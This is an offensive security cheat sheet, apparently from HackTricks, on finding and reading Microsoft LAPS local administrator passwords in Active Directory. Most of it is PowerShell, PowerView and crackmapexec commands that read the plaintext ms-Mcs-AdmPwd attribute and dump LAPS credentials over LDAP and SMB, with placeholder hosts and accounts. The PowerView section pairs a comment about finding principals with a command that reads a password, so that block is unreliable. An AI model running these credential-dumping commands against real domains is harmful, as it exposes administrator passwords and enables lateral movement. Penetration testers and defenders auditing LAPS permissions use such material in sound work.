 # Overview
**LAPS** allows you to manage the local **Administrator** password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES.

When using LAPS, 2 new attributes appear in the computer objects of the domain: `ms-mcs-AdmPwd` and `ms-mcs-AdmPwdExpirationTime`. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

## Tools
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)


# Check If Activated
```powershell
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

# Other Commands
```powershell
# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

## PowerView
**PowerView** can also be used to find out **who can read the password and read it**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

# Dumping Credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```

# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html)
